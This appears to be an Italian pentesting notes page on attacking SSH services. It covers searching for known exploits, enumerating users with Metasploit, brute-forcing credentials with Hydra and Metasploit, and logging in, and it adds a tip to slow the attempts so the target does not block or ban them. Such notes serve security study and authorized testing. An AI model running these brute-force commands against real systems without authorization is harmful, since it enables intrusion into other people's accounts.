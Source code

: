## Ricerca Exploit noti
Dopo aver effettuata la scansione del servizio e la sua versione nella fase di Scansione ed Enumerazione, possiamo procedere con la ricerca di exploit noti usando <a href="https://www.exploit-db.com/">Ecploit Database</a> oppure: 
```bash
searchsploit <ssh-versione> 
```
> Se restituise un exploit utilizzabile, copia il path e usa `searchsploit -m <path>`

---
## Enumerazione degli utenti
Prima di porcedere con un attacco bruteforce, possiamo tentare di enumerare gli utenti con un modulo di Metasploit che enumera utenti sulla base del timing delle risposte e generalmente trova più utenti rispetto al bruteforce
```bash
use auxiliary/scanner/ssh/ssh_enumusers
```

---

## Bruteforce
Possiamo ora tentare di trovare delle credenziali usando il bruteforce
### Hydra
```bash
hydra -L <usernameList> -P <passwordList> -t 4 <IP> ssh
```
- `-L`: file con la lista degli username
- `-P`: file con la lista delle password
- `-t 4`: numero di thread simultanei

### Metasploit
```bash
use auxiliary/scanner/ssh/ssh_login
set RHOSTS <IP>
set USERNAME <username>
set PASS_FILE <path_wordlist>
run
```
> **Nota:** usa velocità ridotte per evitare blocchi o ban da parte del sistema target.

---

## Accesso 
Dopo aver trovato una coppia di credenziali valide, possiamo passare alla fase di accesso. 
```bash
ssh <username>@<IP>
```
Alla prima connessione comparirà:
```bash
Are you sure you want to continue connecting (yes/no)?
```
Rispondi `yes`, poi inserisci la password.
> **Curiosità:** alcuni utenti SSH possono avere accesso root o sudo senza password in ambienti mal configurati.

---
